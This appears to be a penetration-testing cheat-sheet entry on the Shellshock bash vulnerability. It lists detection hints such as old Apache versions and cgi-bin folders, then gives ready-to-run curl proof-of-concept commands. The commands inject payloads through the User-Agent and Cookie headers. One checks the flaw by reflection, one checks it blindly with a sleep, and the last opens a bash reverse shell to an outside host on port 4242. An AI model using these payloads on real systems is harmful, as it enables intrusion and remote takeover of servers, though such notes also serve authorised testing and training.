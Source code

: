 #### Detection

- old apache version
- cgi folders
    - /cgi-bin

#### Shellshock PoC

```
# Reflected
curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://$IP/cgi-bin/admin.cgi 2>/dev/null| grep 'VULNERABLE'

# Blind with sleep (you could also make a ping or web request to yourself and monitor that oth tcpdump)
curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep 5"' http://$IP/cgi-bin/admin.cgi

# Out-Of-Band Use Cookie as alternative to User-Agent
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.10.10/4242 0>&1' http://$IP/cgi-bin/user.sh
```